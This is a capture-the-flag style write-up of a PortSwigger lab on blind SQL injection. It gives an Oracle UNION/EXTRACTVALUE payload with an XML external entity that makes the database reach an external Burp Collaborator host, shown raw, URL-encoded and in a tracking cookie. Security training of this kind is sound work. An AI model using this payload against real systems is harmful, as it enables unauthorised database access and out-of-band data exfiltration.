




# Blind SQL injection with out-of-band interaction

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

___
#blind_sql #oracle_database #dns_lookup

**NOTE:** DNS Lookup




step 1

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

Burp Collaborator =>  `8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com`

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/"> %remote;]>'),'/l') FROM dual--`

URL Encoded =>
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`

```sql
TrackingId=uy2rqNgHygVohssd'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```




step 2

go to burp collaborator
click on Poll now you will see DNS received
and your lab  will solved



